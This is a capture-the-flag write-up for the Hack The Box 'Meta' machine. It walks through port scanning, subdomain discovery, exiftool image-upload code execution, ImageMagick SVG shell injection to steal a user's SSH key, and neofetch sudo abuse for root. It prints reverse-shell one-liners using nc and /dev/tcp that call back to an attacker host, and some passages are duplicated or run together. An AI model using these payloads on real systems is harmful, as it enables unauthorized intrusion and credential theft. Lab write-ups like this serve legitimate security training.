


Home
HTB - META
Meta has an hidden sub-domain that is vulnerable to file injection attack, which is leveraged to get a shell. A binary is then exploited to escalate privileges to root.
Scanning and Enumeration
Starting with a NMAP scan we have...$ nmap -p- --min-rate=1000 -sC -A -T4 $meta
Nmap scan report for 10.10.11.140
Host is up (0.42s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
| 256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_ 256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open http Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/1%OT=22%CT=1%CU=35988%PV=Y%DS=2%DC=T%G=Y%TM=62477BFE
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)OPS(O1=M54BST11NW7%O2=M54BST11NW7%O3
OS:=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST11NW7%O6=M54BST11)WIN(W1=FE88%W2=F
OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54BNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 3306/tcp)
HOP RTT ADDRESS
1 371.24 ms 10.10.16.1
2 148.45 ms 10.10.11.140
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 279.72 secondsApache httpd - TCP 80
Nothings of exploitable importance found on the site even after directory enumeration. Let's perform sub-domain enumeration...dev01.artcorp.htb sub-domain found. Checking it out, we have...
We have access to a currently being developed application called "MetaView" which gives us the following page...
Metaview allows the upload of image files, of which it processes and then displays the image metadata. After multiple
tests on the application, it is noticed that it doesn't matter what the name of the file to be uploaded is, only image files
could be uploaded as it is the actual file content that is used to determine if the file is an image or not.Let's perform Exif Data RCE technique using the command...
$ exiftool -Comment='<?php system("nc 10.10.16.70 4444 -e /bin/bash"); ?>' [image_name].jpgLooking at the data returned by the application, it looks like it uses exiftool to process the image uploaded. Let's check for exiftool exploits... This exploit give us a reverse shell when the generated malicious image is read by a vulnerable exiftool. After uploading the image, on our listener we get a shell... However, we are neither user nor root. Let's perform privilege escalation.
User Privilege Escalation
Searching for files that were created since the start of the year we have...  This shows us a file calledconvert_images.sh. From its content we can see that a utility called "mogrify" which uses ImageMagick v7.0.10-36
is used to modify files found in /var/www/dev01.artcorp.htb/convert_images/ directory. This version of ImageMagick is known to be vulnerable and method
for exploitation is found on...
https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html/var/www/dev01.artcorp.htb/convert_images/ as this is the folder location mogrify uses
ImageMagick to process files. Create an svg file with the following code...
When our svg file is processed by ImageMagic parser our shell code should get executed and we should get a file called username created in /dev/shm containing the name of the user executing the
command. Note, whatever you name your svg file should be the same name contained in the xlink:href attribute; for instance xlink:href="msl:[svg_file_name]". We have...
We have infact a real user called thomas. Now since we have ssh server running on the machine and we can access thomas's files. Let's get his ssh private key with this svg code...
 We get thomas's private key...
Now let's ssh into the machine as user thomas and get the user flag...
We get thomas's private key...
Now let's ssh into the machine as user thomas and get the user flag...
Root Privilege Escalation
Listing sudo commands list, we have... User thomas can run a binary called neofetch as root without password. Executing neofetch as root we have...  Neofetch is a binary that helps to display the system's properties. Looking through it's source code, there is an environment variable calledXDG_CONFIG_HOME that we can control.
This variable sets the home directory where the config file it uses is accessed at $(XDG_CONFIG_HOME)/.config/neofetch/config.conf. This means that we can set the
XDG_CONFIG_HOME in our shell environemnt to home directory and edit the config file as we want.Run...
$ export XDG_CONFIG_HOME=/home/thomas/.config/bin/bash -l > /dev/tcp/[your_ip]/[your_port] 0<&1 2>&1Thank you for reading my writeup 😀 | Home